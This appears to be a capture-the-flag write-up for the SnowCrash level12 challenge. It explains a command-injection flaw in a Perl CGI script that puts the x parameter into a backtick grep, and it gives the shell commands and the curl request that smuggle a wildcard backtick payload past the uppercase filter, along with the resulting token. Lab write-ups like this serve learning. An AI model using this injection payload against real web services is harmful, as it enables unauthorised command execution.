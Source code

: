 1. **File Search**

    We found a `level12.pl` file that shows Perl code that does the following:
    - Receives two web parameters: `x` and `y`.
    - Searches in `/xd` for lines that start with the value of `x` (uppercase and without spaces).
    - If the second part of the line matches `y` (as a regex), it prints `..`, otherwise it prints `.`
    1. The script uses the following line to search in the `/xd` file:
        ```bash
        @output = `grep "^$xx" /xd 2>&1`;
        ```
        The value of `$xx` comes directly from the `x` parameter received by the user, after converting it to uppercase and removing what follows a space.

2. **Vulnerability and Exploitation**

    The `level12.pl` script is vulnerable to command injection because it inserts the value of the `x` parameter directly into a shell command using backticks, after converting it to uppercase and removing what follows a space. This allows arbitrary commands to be executed if the executable file name is in uppercase and contains no spaces.
    1. We create an executable script /tmp/EXPLOIT that executes getflag and redirects the output to a file (/tmp/flag12).
    2. We use an HTTP request with curl so that the CGI executes our script using a wildcard and backticks in the x parameter:
    ```bash
    level12@SnowCrash:~$ cd /tmp
    level12@SnowCrash:/tmp$ echo -e \'#!/bin/bash\\ngetflag > /tmp/flag12\' > EXPLOIT
    level12@SnowCrash:/tmp$ chmod +x EXPLOIT
    level12@SnowCrash:/tmp$ curl "http://localhost:4646/?x=\`/*/EXPLOIT\`&y=.*"
    ..level12@SnowCrash:/tmp$ cat flag12
    Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
    ```




